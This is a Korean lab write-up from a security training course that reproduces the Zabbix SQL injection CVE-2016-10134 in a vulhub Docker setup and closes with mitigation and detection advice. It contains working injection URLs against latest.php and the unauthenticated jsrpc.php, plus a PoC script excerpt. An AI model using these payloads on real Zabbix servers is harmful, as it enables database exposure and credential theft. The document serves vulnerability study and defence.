









# [WHS 4기] 5반 천태영 CVE-2016-10134

| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2016-10134 |
| 대상 소프트웨어 | Zabbix (2.2.14 이전, 3.0.4 이전 3.0.x) |
| 취약점 유형 | SQL Injection (CWE-89) |
| 주요 취약 파일 | `latest.php`, `jsrpc.php` |
| 취약 파라미터 | `toggle_ids[]` (latest.php), `profileIdx2` (jsrpc.php) |
| 영향 | 데이터베이스 정보 노출, 인증 정보 탈취 가능성, 추가 공격 기반 확보 |

Zabbix 일부 엔드포인트에서 사용자 입력값이 SQL 쿼리에 안전하게 바인딩되지 않아 SQL Injection이 발생한다. 원격 공격자가 toggle_ids 파라미터를 통해 임의의 SQL 명령을 실행할 수 있다. 이 취약점은 인증 없이 jsrpc.php를 통해서도 트리거될 수 있다.


## 환경 구성

다음 명령어를 실행하여 Zabbix 3.0.3 환경을 시작한다.
```bash
docker compose up -d
docker compose ps
```


명령을 실행하면 Zabbix DB(MySQL), Zabbix Server, Zabbix Agent 및 Zabbix Web Interface가 시작한다.




### 환경 구성 중 발견된 이슈 (참고)

최초 기동 시 `depends_on`이 MySQL의 "시작 순서"만 보장하고 "초기화 완료(스키마 로드)"는 보장하지 않아, MySQL이 완전히 준비되기 전 zabbix-server가 DB 접속을 시도하다 `Connection refused`로 즉시 종료되는 현상이 확인됨.



 `server`/`agent` 서비스에 `restart: on-failure`를 추가하여 초기화 완료 시점까지 자동 재시도되도록 조치함.

```yaml
  server:
    image: vulhub/zabbix:3.0.3-server
    command: server
    restart: on-failure   # 추가
    ...
  agent:
    image: vulhub/zabbix:3.0.3-server
    command: agent
    restart: on-failure   # 추가
    ...
```

검증: `docker inspect`로 확인한 결과 `RestartCount=8` 이후 `Status=running, ExitCode=0`으로 정상화됨을 확인. 또한 MySQL을 먼저 기동하여 초기화(약 25초)를 완료한 뒤 server를 기동한 대조 실험에서는 재시작 없이 즉시 `Up (healthy)` 상태가 되는 것을 확인하여, MySQL 초기화 타이밍이 근본 원인임을 최종 검증함.




## 취약 조건

- Zabbix가 취약 버전인 경우
  - Zabbix 2.2.14 미만
  - Zabbix 3.0.4 미만의 3.0.x
- 취약한 웹 엔드포인트에 접근 가능한 경우
  - `latest.php`
  - `jsrpc.php`
- `latest.php` 경로를 이용하는 경우 유효한 `zbx_sessionid` 기반 `sid` 값이 필요한 경우가 있다.
- `jsrpc.php` 경로는 인증 없이도 트리거될 수 있는 것으로 알려져 있어 외부 노출 시 위험도가 높다.


## 재현 절차

`http://<대상IP>:8080` 접속, username : guest / password : (공백)으로 로그인

브라우저 쿠키에서 `zbx_sessionid` 값 확인 후 **뒤 16자리**를 추출 → 이후 요청의 `sid` 파라미터로 사용



1. 아래 URL로 접근하여 SQL 인젝션 트리거
```
http://<대상IP>:8080/latest.php?output=ajax&sid=<sid 16자리>&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```



2. `jsrpc.php`를 통한 미인증 트리거(별도 로그인 없이도 가능)
```
http://<대상IP>:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```



3. PoC 코드

vulhub가 제공하는 PoC 스크립트(`CVE-2016-10134.py`) 사용

```bash
python3 CVE-2016-10134.py -t 127.0.0.1:8080
# 또는
python3 CVE-2016-10134.py --target 127.0.0.1:8080
```

핵심 코드 흐름은 다음과 같다.
```python
payload1 = f"http://{target}/latest.php?output=ajax&sid={sid}&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)"
retn2 = ss.get(url=payload1, headers=ss.headers)
```

응답에서 다음 정규식으로 SQL 오류 메시지와 삽입된 페이로드를 추출한다.
```python
payload = re.search(r"\[(.*\))\]", text)
sql_injection_info = re.search(r"<\/li><li>(.*)\'\]", text)
```

스크립트는 내부적으로 guest 세션을 획득한 뒤 `sid`를 파싱하고, `toggle_ids[]` 파라미터에 `updatexml()` 기반 Error-based SQLi 페이로드를 주입하여 DB 버전/사용자 등의 정보를 추출하는 방식으로 동작한다.


## 실행 결과

`updatexml(0, concat(0xa, user()), 0)` 페이로드는 XPath 파싱 에러를 강제로 유발시켜, MySQL이 에러 메시지 안에 `user()` 함수의 결과값을 그대로 노출하도록 만든다. 정상 요청 시에는 `No data found` 등의 응답이 반환되지만, 인젝션 성공 시 다음과 같이 SQL 문법 에러 메시지에 주입 결과가 포함되어 반환된다.




## 대응 방안

| 방법 | 내용 |
|---|---|
| 버전 업그레이드 | Zabbix 2.2.14 이상 또는 3.0.4 이상 버전으로 업그레이드 (해당 파라미터에 대한 입력 검증/파라미터 바인딩 패치 적용됨) |
| 입력값 검증 | `toggle_ids[]`, `profileIdx2` 등 사용자 입력값을 숫자/허용 목록 기반으로 검증한다. |
| 안전한 쿼리 사용 | 문자열 결합 방식의 SQL 쿼리 생성을 피하고 Prepared Statement 또는 파라미터 바인딩을 사용한다. |
| 탐지 | WAF/IDS에서 `toggle_ids`, `profileIdx2` 파라미터에 `updatexml`, `extractvalue`, `UNION SELECT` 등 SQLi 패턴 탐지 규칙 추가 |
| guest 계정 관리 | 불필요한 guest 접근을 비활성화하고 최소 권한 원칙을 적용 |

---

**참고 자료**
- vulhub CVE-2016-10134 공식 문서: https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2016-10134
- Full Disclosure 원 게시글: https://seclists.org/fulldisclosure/2016/Aug/82
- Exploit-DB: https://www.exploit-db.com/exploits/40237


